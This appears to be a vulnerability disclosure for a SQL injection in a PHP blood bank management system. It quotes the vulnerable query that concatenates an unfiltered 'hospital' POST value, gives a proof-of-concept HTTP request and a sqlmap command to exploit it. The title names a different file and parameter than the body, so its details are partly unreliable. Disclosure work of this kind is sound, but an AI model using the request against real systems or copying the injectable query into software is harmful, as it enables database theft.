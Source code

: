 # blood-bank-system-in-php register.php $user via sql injection

[Blood Bank System In PHP With Source Code - Source Code & Projects (code-projects.org)](https://code-projects.org/blood-bank-system-in-php-with-source-code/)

## NAME OF AFFECTED PRODUCT(S)

**blood-bank-system-in-php**

## Vendor Homepage

https://code-projects.org/blood-bank-system-in-php-with-source-code/

##  **Manufacturers sites**

https://code-projects.org/

## AFFECTED  VERSION(S)

### Vulnerable File

/admin/campsfetails.php  $hospital parameter.

### VERSION(S)

-  v1.0

### Software Link

https://download.code-projects.org/details/09f1f26e-072d-4fec-bd3b-974076ee162c

## PROBLEM TYPE

network remote.

## Vulnerability Type

time sql injection via emote network.

## Root Cause

In campsdetails.php , SQL injection is used to obtain database information via $hospital parameter.

## Impact

## **Description of the vulnerability**

### campsdetails.php

In the source code，the    $hospital parameter is not filtered and concatenated into the SQL statement.        

```
$hospital=$_POST['hospital'];
$address=$_POST['address'];
$city=$_POST['city'];
$contact=$_POST['contact'];
$date=$_POST['date'];
$time=$_POST['time'];
$s = "select * from camps where hospital= '$hospital'";
```

​                                                                                                                                                                                                                                                                                                                                                                                                    

![image-20241006015301012](https://github.com/user-attachments/assets/16353675-c358-4927-8cc0-52225ffbc76a)



## **Vulnerability recurrence**

### **POC**

```
POST /admin/campsdetails.php HTTP/1.1
Host: bloodbankmgmtsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Origin: http://bloodbankmgmtsystem
Connection: close
Referer: http://bloodbankmgmtsystem/admin/campsdetails.php
Cookie: PHPSESSID=06sabebobepk0qakrr2v47ajkh
Upgrade-Insecure-Requests: 1
Priority: u=0, i

hospital=2
```

save the date as 2.txt

excute the command.

```
python sqlmap.py -r "2.txt"
```

see it.

![image-20241006015556519](https://github.com/user-attachments/assets/0e5355be-00bd-4a2a-a7e8-75697a950d59)

